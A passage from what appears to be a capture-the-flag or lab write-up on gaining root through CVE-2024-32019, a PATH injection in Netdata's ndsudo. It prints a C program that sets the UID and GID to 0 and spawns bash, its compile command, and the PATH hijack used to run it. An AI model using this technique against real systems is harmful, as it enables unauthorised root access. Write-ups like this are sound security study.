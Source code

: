 - After digging deeper (with GPT’s help), I found that it was vulnerable to **CVE-2024-32019**. A public POC was available: [CVE-2024-32019-POC](https://github.com/AliElKhatteb/CVE-2024-32019-POC).

- Although I didn’t use the exact exploit, I used it as inspiration.

---

## Gaining Root Shell

- I created a small C program that forces the UID and GID to root, then spawns a shell:

```c
#include <unistd.h>  // setuid, setgid, execl
#include <stddef.h>  // NULL

int main() {
    setuid(0);   // force UID to root
    setgid(0);   // force GID to root group
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```

- Compiled it with:

```bash
x86_64-linux-gnu-gcc -o nvme exploit.c -static 
```

- Then transferred it to the target, made it executable, and exploited the `PATH` injection trick by modifying `$PATH`:

```bash
PATH=$(pwd):$PATH
```

- Finally, I executed `ndsudo` with my custom binary and popped a **root shell**. 🚀

---

